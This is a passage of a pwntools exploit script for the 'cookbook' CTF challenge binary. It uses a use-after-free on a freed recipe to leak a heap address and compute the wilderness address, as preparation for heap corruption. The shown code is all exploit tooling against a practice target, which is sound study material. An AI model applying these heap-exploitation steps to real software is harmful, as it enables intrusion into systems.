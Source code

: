 ```
zero = 0x0

#Establish the target
target = process('./cookbook')
#gdb.attach(target)

#Send the initial name, guyinatuxedo
target.sendline('guyinatuxedo')

#This function will just reset the heap, by mallocing 5 byte size blocks with the string "00000" by giving the cookbook a name
def refresh_heap(amount):
	for i in range(0, amount):
		target.sendline("g")
		target.sendline(hex(0x5))
		target.sendline("00000")
		recv()
		recv()


#These are functions just to scan in output from the program
def recv():
	target.recvuntil("====================")

def recvc():
	target.recvuntil("[q]uit")

def recvd():
	target.recvuntil("------\n")

#This function will leak a heap address, and calculate the address of the wilderness
def leakHeapadr():
	#Create a new recipe, and add an ingredient
	target.sendline('c')
	recvc()
	target.sendline('n')
	recvc()
	target.sendline('a')
	recvc()
	target.sendline('water')
	target.sendline('0x1')

	#Delete the recipe to free it
	target.sendline('d')
	recvc()

	#Print the stale pointer, and parse out the heap infoleak
	target.sendline('p')
	target.recvuntil("recipe type: (null)\n\n")
	heapleak = target.recvline()
	heapleak = heapleak.replace(' -', '')
	heapleak = int(heapleak)

	#Calculate the address of the wilderness
	global wilderness
	wilderness = heapleak + 0xd38

	#Print the results
	log.info("Heap leak is: " + hex(heapleak))
	log.info("Wilderness is at: " + hex(wilderness))
	target.sendline('q')
	recv()
	recvc()
```